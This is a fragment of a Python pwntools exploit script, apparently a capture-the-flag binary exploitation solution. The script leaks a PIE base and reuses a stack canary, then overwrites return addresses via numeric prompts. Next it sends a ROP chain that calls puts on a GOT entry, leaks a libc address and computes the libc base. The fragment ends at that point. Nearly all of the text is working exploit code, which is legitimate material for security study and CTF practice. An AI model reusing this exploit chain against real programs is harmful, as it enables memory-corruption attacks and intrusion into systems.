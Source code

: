 ```python
    print(hex(high), hex(low))
    print hex(high<<32)
    pie = (high << 32) | low
    pie -= 0xb40
    print hex(pie)
    print hex(canary)
    # pause()
    buf = pie +0x201420
    main = pie +0xa31
    print "back"
    p.recv()
    p.sendline(str(main & 0xffffffff))
    p.recv()
    p.sendline(str((main >> 32) & 0xffffffff))
    while str(p.recv()).find("name") == -1:
        p.sendline("+")
    # p.sendline('+')
    # 
    # pause()
    print "step1"
    for i in range(26):
        p.recv()
        p.sendline(str(i))

    print "canary "+hex(canary)
    p.recv()
    p.sendline(str(canary & 0xffffffff))
    p.recv()
    p.sendline(str((canary>>32) & 0xffffffff))


    print "buf "+hex(buf)
    p.recv()
    p.sendline(str(buf & 0xffffffff))
    p.recv()
    p.sendline(str((buf>>32) & 0xffffffff))

    rsp=(pie+0xB31)
    print "set rsp "+hex(rsp)
    p.recv()

    p.sendline(str(rsp & 0xffffffff))
    p.recv()
    p.sendline(str((rsp>>32) & 0xffffffff))

    print "back "+hex(main)
    p.recv()
    p.sendline(str(main & 0xffffffff))
    p.recv()
    p.sendline(str((main>>32) & 0xffffffff))
    
    # gdb.attach(p, "breakrva 0xb18")
    rop_chain = p64(buf+0x50)
    prdi=0x0000000000ba3+pie
    rop_chain += p64(prdi) + p64(pie + e.got['puts'])
    rop_chain += p64(pie + e.plt['puts']) + p64(pie+0xAFD)
    # gdb.attach(p, "breakrva 0xb18")
    print "gain libc"
    p.recvuntil("name")
    p.send(rop_chain)
    p.recv()
    libc.address=u64(p.recv(6)+'\x00\x00')-libc.symbols['puts']
    print hex(libc.address)
```